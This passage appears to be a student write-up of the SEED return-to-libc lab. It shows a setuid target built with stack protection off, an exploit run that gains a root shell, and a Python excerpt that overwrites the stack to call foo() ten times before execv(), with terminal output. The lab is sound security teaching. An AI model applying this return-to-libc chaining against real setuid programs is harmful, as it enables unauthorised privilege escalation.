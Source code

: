 ### Result
```bash
seed@seed:~/Desktop/return-to-libc-lab$ make
gcc -m32 -DBUF_SIZE=15 -fno-stack-protector -z noexecstack -o retlib retlib.c
sudo chown root retlib && sudo chmod 4755 retlib
seed@seed:~/Desktop/return-to-libc-lab$ ./exploit.py 
seed@seed:~/Desktop/return-to-libc-lab$ ./retlib 
Address of input[] inside main():  0xffffcef0
Input size: 160
Address of buffer[] inside bof():  0xffffcebd
Frame Pointer value inside bof():  0xffffced8
bash-5.0# whoami
root
bash-5.0# exit
exit
```

## Task 5
In this task we should we should change the stack in a way that after we return from `bof()` we call `foo()` ten times and then we call `execv()`. Since `foo()`
doesn't  have any input arguments our job is relatively easy. instead of writing the address of `execv()` in the return address of `bof()` we write the address of `foo()`, by looking at the table of task 3 we see that the return address of `foo()` is actually 4 bytes above. So we for 10 consecutive 4 bytes, we write the address of `foo()` and then shift everything else 40 bytes above; this is done in the script below: 

```python
# only showing the modified part:
content = bytearray(0xaa for i in range(200 )) # +40 here

argv_pos = 64 + 40 # +40 here
bin_bash_pos = 96 + 40  # +40 here
dash_p_pos = 112 + 40 # +40 here

# calling foo() 10 times:
for i in range(10):
  content[ebp -buffer_addr + 4 + 4*i:ebp -buffer_addr + 8 + 4*i] = (foo_addr).to_bytes(4,byteorder='little')

Y = ebp -buffer_addr + 4 + 40 # +40 here
Z = ebp - buffer_addr + 8 + 40 # +40 here
X = ebp - buffer_addr + 12 + 40 # +40 here
T = ebp - buffer_addr + 16 + 40 # +40 here
```
### Result

```bash
seed@seed:~/Desktop/return-to-libc-lab$ ./exploit.py 
seed@seed:~/Desktop/return-to-libc-lab$ ./retlib 
Address of input[] inside main():  0xffffcef0
Input size: 200
Address of buffer[] inside bof():  0xffffcebd
Frame Pointer value inside bof():  0xffffced8
Function foo() is invoked 1 times
Function foo() is invoked 2 times
Function foo() is invoked 3 times
Function foo() is invoked 4 times
Function foo() is invoked 5 times
Function foo() is invoked 6 times
Function foo() is invoked 7 times
Function foo() is invoked 8 times
Function foo() is invoked 9 times
Function foo() is invoked 10 times
```